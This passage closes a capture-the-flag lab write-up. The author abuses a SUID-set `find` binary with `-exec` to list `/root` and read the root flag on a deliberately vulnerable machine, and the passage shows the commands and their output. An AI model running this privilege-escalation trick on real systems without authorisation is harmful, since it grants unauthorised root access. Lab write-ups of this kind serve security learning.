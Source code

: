 This is bad news, not for us tho! `find` is in the list and we can execute commands using `-exec`. Let's use it.

Answer: `find`

## root.txt

It has SUID bit set, so we can use this to execute commands as root. First I listed the files in `/root` and then I read `root.txt`:

~~~
stoner@Vulnerable:~$ find /root -exec ls /root \;
root.txt
root.txt
stoner@Vulnerable:~$ find /root -exec cat /root/root.txt \;
It wasn't that hard, was it?
It wasn't that hard, was it?
~~~

root.txt: `It wasn't that hard, was it?`

# D0N3! ; )

Thanks to the creator(s) for this annoyingly fun room! : )

Hope you had fun like I did, and learned something!

Have a good one! : )